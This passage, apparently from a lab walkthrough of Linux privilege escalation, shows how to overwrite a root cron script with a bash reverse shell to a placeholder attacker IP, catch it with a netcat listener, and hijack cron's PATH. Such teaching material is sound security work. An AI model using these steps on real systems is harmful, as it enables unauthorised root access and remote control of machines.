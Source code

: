 The 5 asterisk ( * ) before every job here , denote the time for execution. `* * * * *` means every minute. [This](https://www.netiq.com/documentation/cloud-manager-2-5/ncm-reference/data/bexyssf.html) will help you understand the syntax for cronjob scheduling.

Now, locate `[overwrite.sh](http://overwrite.sh)` and change its content to 

```bash
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
```

What this code does is, open an interactive instance of bash, on a TCP connection to the specified port on the specified host and redirect all streams to it.

- `#!/bin/bash` sets the interpreter for the script (here `bash`)
- `bash -i` opens the interactive shell
- `>& /dev/tcp/YOUR_IP/YOUR_PORT` reditrects standard output and standard error tp the specified ip and port
- `0>&1` redirects standard input

![/assets/images/posts/linuxprivesc/Untitled%201.png](/assets/images/posts/linuxprivesc/Untitled%201.png)

Open a new terminal session on your machine and set up a listener using `nc -nvlp 4444`.

In a minute, a root shell should connect back to your netcat listener.

![/assets/images/posts/linuxprivesc/Untitled%202.png](/assets/images/posts/linuxprivesc/Untitled%202.png)

Yesss! Now before moving on to the next task , exit the root terminal and delete the content of `overwrite.sh` - `echo "" > /usr/local/bin/overwrite.sh`

# Task 9 : Cron Jobs - PATH Environment Variable

If you look at the content of `/etc/crontab` you can notice that the `PATH` variable starts with `/home/user` so this means that for executing any command , `/home/user` will be searched first. We can take advantage of  this and create our own `owerwrite.sh` and place it at  `/home/user` .

![/assets/images/posts/linuxprivesc/Untitled%203.png](/assets/images/posts/linuxprivesc/Untitled%203.png)